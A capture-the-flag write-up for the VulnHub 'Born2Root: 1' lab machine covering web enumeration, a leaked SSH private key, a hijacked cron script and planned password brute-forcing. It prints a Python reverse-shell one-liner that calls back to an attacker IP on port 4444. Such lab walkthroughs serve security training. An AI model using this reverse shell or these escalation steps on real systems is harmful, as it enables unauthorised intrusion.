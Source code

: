 # Born2Root: 1

## 1.Get VM IP

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/3d1116fe-6019-4783-8339-8fbc26286343)

The IP address is `192.168.56.109`, let's enumerate it.

## 2.Enumeration

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/85cd869d-e904-4ad6-b19b-ec9b4fc7ade4)

So, let's check the webpage first :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/59336175-e076-4ad0-be39-cc47c08d9d88)

there afew usernames here : 

- martin
- hadi
- jimmy

write them down and try to fuzz the web application :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/ffdfd581-84fc-4476-8bc8-925293af35eb)

we found several directories, first go to `/icons` and there are a lot of files here :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2501949e-23dc-4baa-888c-6ee000056202)

## 3.Gaining Shell

Check the file named `VDSoyuAXiO.txt` and you see a SSH private key here :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/5fc3cea2-3a53-49fe-91eb-95976e128380)

we can now check which user does this private key belongs to, i try user `martin` :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/726b9871-be30-4f9e-ac46-ab00b27ca1a4)

and for secret password just use a blank password.

## 4.Privilege Escalation 1 (Jimmy)

Check crontab :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/83620935-2f64-4113-9402-c0c9016a627d)

the file `sekurity.py` has jimmy permissions and there are no `sekurity.py` in `/tmp` so we need to create one

and put a reverse shell in it :

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/57fb2b39-c6cc-4e35-b08f-bcdce6e93eac)

## 5.Privilege Escalation 2 (root)

If you see the home page of user jimmy, there is a file called `networker` and when execurting it :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/a01a92d0-0cdf-4713-a188-6a77a97788f8)

this binary is a rabbit hole and has nothing to do with it, since we logged in as 2 users out of 3 possible users

now the only option is to brute force the last user password, user `hadi`, we can generate a new wordlist or use `rockyou.txt`
















